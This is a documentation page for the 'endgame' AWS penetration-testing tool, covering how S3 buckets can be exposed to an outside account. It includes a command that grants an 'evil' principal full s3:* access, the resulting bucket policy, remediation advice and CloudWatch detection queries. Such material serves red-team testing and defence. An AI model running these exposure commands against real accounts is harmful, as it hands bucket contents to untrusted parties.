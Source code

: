 # S3 Buckets

## Steps to Reproduce

* To expose the resource using `endgame`, run the following from the victim account:

```bash
export EVIL_PRINCIPAL=arn:aws:iam::999988887777:evil

endgame expose --service s3 --name test-resource-exposure
```

* To verify that the S3 bucket has been shared with the public, run the following from the victim account:

```bash
aws s3api get-bucket-policy --bucket test-resource-exposure
```

* Observe that the contents match the example shown below.


## Example

The response of the `get-bucket-policy` command will return the below. Observe how the Evil Principal (`arn:aws:iam::999988887777:evil`) is granted full access to the S3 bucket.

```json
{
    "Policy": "{\"Version\":\"2012-10-17\",\"Statement\":[{\"Sid\":\"AllowCurrentAccount\",\"Effect\":\"Allow\",\"Principal\":{\"AWS\":\"arn:aws:iam::999988887777:evil\"},\"Action\":\"s3:*\",\"Resource\":[\"arn:aws:s3:::test-resource-exposure\",\"arn:aws:s3:::test-resource-exposure/*\"]}]}"
}
```

## Exploitation

```
TODO
```

## Remediation

> ‼️ **Note**: At the time of this writing, AWS Access Analyzer does **NOT** support auditing of this resource type to prevent resource exposure. **We kindly suggest to the AWS Team that they support all resources that can be attacked using this tool**. 😊

* **Trusted Accounts Only**: Ensure that  S3 Buckets are only shared with trusted accounts, and that the trusted accounts truly need access to the S3 Bucket.
* **Ensure access is necessary**: For any trusted accounts that do have access, ensure that the access is absolutely necessary.
* **Restrict access to IAM permissions that could lead to exposure of your S3 Buckets**: Tightly control access to the following IAM actions:
  - [s3:GetBucketPolicy](https://docs.aws.amazon.com/AmazonS3/latest/API/API_GetBucketPolicy.html): _Grants permission to return the policy of the specified bucket. This includes information on which AWS accounts and principals have access to the bucket._
  - [s3:ListAllMyBuckets](https://docs.aws.amazon.com/AmazonS3/latest/API/API_ListBuckets.html): _Grants permission to list all buckets owned by the authenticated sender of the request_
  - [s3:PutBucketPolicy](https://docs.aws.amazon.com/AmazonS3/latest/API/API_PutBucketPolicy.html): _Grants permission to add or replace a bucket policy on a bucket._

Also, consider using [Cloudsplaining](https://github.com/salesforce/cloudsplaining/#cloudsplaining) to identify violations of least privilege in IAM policies. This can help limit the IAM principals that have access to the actions that could perform Resource Exposure activities. See the example report [here](https://opensource.salesforce.com/cloudsplaining/)

## Basic Detection
The following CloudWatch Log Insights query will include exposure actions taken by endgame:
```
fields eventTime, eventSource, eventName, userIdentity.arn, userAgent 
| filter eventSource='s3.amazonaws.com' AND eventName='PutBucketPolicy'
```

The following query detects policy modifications which include the default IOC string:
```
fields eventTime, eventSource, eventName, userIdentity.arn, userAgent 
| filter eventSource='s3.amazonaws.com' AND (eventName='PutBucketPolicy' and @message like 'Endgame')
```
(More specific queries related to the policy contents do not work due to how CWL parses the requestParameters object on these calls)

This query assumes that your CloudTrail logs are being sent to CloudWatch and that you have selected the correct log group.

## References

- [aws s3api put-bucket-policy](https://docs.aws.amazon.com/cli/latest/reference/s3api/put-bucket-policy.html)
- [aws s3api get-bucket-policy](https://docs.aws.amazon.com/cli/latest/reference/s3api/get-bucket-policy.html)